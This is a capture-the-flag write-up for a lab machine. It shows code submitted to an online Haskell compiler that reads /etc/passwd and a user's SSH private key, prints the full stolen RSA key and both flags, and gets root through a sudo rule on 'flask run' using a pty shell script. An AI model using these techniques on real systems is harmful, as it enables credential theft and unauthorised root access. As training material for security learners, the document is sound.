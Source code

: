 ```
export ip=10.10.29.130
```

```
Get the flag in the user.txt file.
flag{academic_dishonesty}
```

haskell compiler @ $ip:5001/submit

using haskell code to read /etc/password and after that to /home/$user/user.txt on all users from /etc/passwd (in that case the prof user)

```
#!/usr/bin/env/runhaskell

import System.IO  
  
main = do  
	-- handle <- openFile "/etc/passwd" ReadMode  
    handle <- openFile "/home/prof/user.txt" ReadMode  
    contents <- hGetContents handle
    putStr contents
    hClose handle

```

if we have read access to the home dirs - we can try to grab the ssh keys??? (22/tcp open)

```
#!/usr/bin/env/runhaskell

import System.IO  
  
main = do  
    -- handle <- openFile "/etc/passwd" ReadMode  
    handle <- openFile "/home/prof/.ssh/id_rsa" ReadMode
    -- get the ssh key(assuming it is id_rsa)
    contents <- hGetContents handle
    putStr contents
    hClose handle

```

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA068E6x8/vMcUcitx9zXoWsF8WjmBB04VgGklNQCSEHtzA9cr
94rYpUPcxxxYyw/dAii0W6srQuRCAbQxO5Di+tv9aWXmBGMEt0/3tOE7D09RhZGQ
b68lAFDjSSJaVlVzPi+waotyP2ccVJDjXkwK0KIm6RsACIOhM9GtI2wyZ6vOg4ss
Nb+7UY60iOkcOAWP09Omzjc2q7hcE6CuV6f7+iObamfGlZ4QQ5IvUj0etStDD6iU
WQX4vYewYqUz8bedccFvpC6uP2FGvDONYXrLWWua7wlwSgOqeXXxkG7fxVqYY2++
6ZVm8RE7TpPNxsQNDwpnxOiwTxGMgCrIMxgRVwIDAQABAoIBAQCTLXbf+wQXvtrq
XmaImQSKRUiuepjJeXLdqz1hUpo7t3lKTEqXfAQRM9PG5GCgHtFs9NwheCtGAOob
wSsR3TTTci0JIP4CQs4+nez96DNl+6IUmhawcDfrtlGwwZ/JsvPDYujnyziN+KTr
7ykGoRxL3tHq9Qja4posKzaUEGAjTz8NwrhzB6xatsmcWBV0fFoWzpS/xWzW3i7F
gAoYxc6+4s5bKHsJima2Aj5F3XtHfipkMdBvbl+sjGllgiQn/oEjYMIX5wc7+se2
o7FERO2oy3I5jUOlULsr9BwQpNFA2Qenc4Wc7ghb0LfCVaUs/RHQ7IQ4F3yp/G67
54oLue6hAoGBAPCe+WsnOXzhwQ9WXglhfztDR1lcwSFMeHZpcxYUVqmVEi2ZMLll
B67SCri9lHHyvBtrH7YmZO5Q9UcGXdLCZGmbkJUdX2bjqV0zwwx1qOiVY8LPnZSJ
LJN+0p1dRHsO3n4vTHO8mVuiM5THi6pcgzSTggIhS+e1ks7nlQKiBuD/AoGBAOE2
kwAMtvI03JlkjvOHsN5IhMbOXP0zaRSrKZArDCcqDojDL/AQltQkkLtQPdUPJgdY
3gOkUJ2BCHNlIsAtUjrTj+T76N512rO2sSidOEXRDCc+g/QwdgENiq/w9JroeWFc
g9qM3f2cl/EkjxRgiyuTfK6mbzcuMSveX4LfCXepAoGAd2MZc+4ZWvoUNUzwCY2D
eF8QVqlr9d6gYng9rvXWbfvV8iPxBfu3zSjQQwtlTQhYBu6m5FS2fXxTxrLE+J6U
/cU+/o19WWqaDPFy1IrIjOYagn1KvXk2UdR6IbQ2FyywfkFvmHk6Sjn3h9leVd/j
BcIunmnw5H214s0KpSzJZvcCgYA5Ca9VNeMnmIe+OZ+Swezjfw5Ro3YdkmWsnGTc
ZGqhiJ9Bt91uOWVZuSEGr53ZVgrVlYY0+eqI2WMghp60eUX4LBinb71cihCnrz9S
/+5+kCE51zVoJNXeEmXrhWUNzo7fP6UNNtwKHRzGL/IkwQa+NI5BVVmZahN9/sXF
yWMGcQKBgQDheyI7eKTDMsrEXwMUpl5aiwWPKJ0gY/2hS0WO3XGQtx6HBwg6jJKw
MMn8PNqYKF3DWex59PYiy5ZL1pUG2Y+iadGfIbStSZzN4nItF5+yC42Q2wlhtwgt
i4MU8bepL/GTMgaiR8RmU2qY7wRxfK2Yd+8+GDuzLPEoS7ONNjLhNA==
-----END RSA PRIVATE KEY-----
```

@ prof ssh shell
====
sudo -l
(root) NOPASSWD: /usr/bin/flask run
export FLASK_APP=exploit.py
```
cat expoit.py
import pty;
pty.spawn("/bin/bash")
```
sudo /usr/bin/flask run

root!!! id = uid=0(root) gid=0(root) groups=0(root)

```
Get the flag in the root.txt file.
flag{im_purely_functional}
```

